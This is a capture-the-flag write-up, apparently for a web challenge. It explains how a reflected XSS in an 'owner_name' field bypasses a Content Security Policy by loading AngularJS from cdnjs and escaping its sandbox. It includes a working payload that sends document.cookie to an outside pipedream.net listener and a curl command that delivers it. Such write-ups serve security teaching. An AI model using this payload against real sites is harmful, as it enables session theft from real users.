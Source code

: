 # How to solve it?

This challenge is based on chromium bot running in the background. It's Summerland challenge updated for CSP. You have to get cookies from the "scammer" that opens their list of scammed credit cards at `/payments`. `owner_name` parameter is the only one that isn't validated. Reflected XSS may be trigerred via this parameter. Unfortunately CSP is implemented:
```
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-eval' cdnjs.cloudflare.com; style-src 'self'; img-src 'self'; worker-src 'none'; block-all-mixed-content;
```

According to CSP Evaluator, scripts from domain `cdnjs.cloudflare.com` may be loaded. Angular is hosted in this domain.

Working payload:
```
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };document.location="https://eniuypa55va2.x.pipedream.net/?d="+document.cookie;//');}} </div>
```

Curl:
```console
curl 'http://localhost:8080/api/pay' \
  -H 'Content-Type: application/json' \
  --data-raw $'{"card_number":"VALID_CARD_NUMBER","owner_name":"<script src=\\"https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js\\"></script> <div ng-app> {{\'a\'.constructor.prototype.charAt=[].join;$eval(\'x=1} } };document.location=\\"https://MY_DOMAIN/?d=\\"+document.cookie;//\');}} </div>","expire_date":"11 / 2022","cvv":"111"}' 
```

Set up listener on your publicly available domain and send this curl. 